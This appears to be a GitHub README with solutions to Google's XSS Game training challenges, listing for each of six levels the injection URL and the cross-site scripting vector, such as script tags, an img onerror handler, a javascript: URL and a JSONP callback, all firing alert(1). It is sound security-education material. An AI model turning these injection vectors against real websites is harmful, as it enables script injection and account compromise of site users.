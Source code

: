 # Google XSS Game Challenge Solution
Below are the solutions to Google XSS challenges hosted on https://xss-game.appspot.com/

![alt text](https://github.com/akanshgulati/XSS-Challenges/raw/master/image1.png "Checklist")
 
###Level 1: Hello, world of XSS

####Query
`https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>`

####Vector
`<script>alert(1)</script>`
 
###Level 2: Persistence is key
 
####Vector
`"><img src=x onerror=alert(1)>`
 
### Level 3: That sinking feeling...  

####Query
`https://xss-game.appspot.com/level3/frame#'/><script>alert(1)</script>`

####Vector
`'/><script>alert(1)</script>`
 
### Level 4: Context matters 
 
#### Query  
`https://xss-game.appspot.com/level4/frame?timer=1')%3Balert('1`
#### Vector 
`1')%3Balert('1`
 
####Level 5: Breaking protocol 
 
####Query 
`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)`
#### Vector
`javascript:alert(1)`
 
###Follow the
 
#### Query
`https://xss-game.appspot.com/level6/frame#HTTPS://www.google.com/jsapi?callback=alert`
#### Vector
`HTTPS://www.google.com/jsapi?callback=alert`

